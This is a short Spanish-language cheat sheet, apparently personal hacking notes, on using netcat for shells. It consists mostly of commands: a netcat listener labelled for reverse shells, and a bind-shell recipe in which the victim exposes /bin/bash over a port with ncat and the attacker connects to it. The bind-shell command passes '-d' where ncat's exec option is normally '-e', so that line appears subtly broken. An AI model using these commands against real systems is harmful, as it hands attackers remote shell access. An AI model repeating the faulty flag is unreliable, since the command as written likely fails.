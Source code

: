 Escuchar en un puerto para recibir una conexión


## Uso
```sh title:"Uso de NC para reverse shell"
 nc -lvnp {port}
# puerto de conexion
# -l para escuchar
# -v modo verbose (detalles de la conexion)
# -n para no resolver nombres de dominio
# -p para especificar el puerto
```



```sh title:"Uso de NC para bind shell"
# desde la victima se ofrece la bash por un puerto
 ncat -nlvp {puerto} -d /bin/bash
# puerto de conexion
# -l para escuchar
# -v modo verbose (detalles de la conexion)
# -n para no resolver nombres de dominio
# -p para especificar el puerto


# desde el atacante nos conectamos con
nc {ip victima} {puerto}
```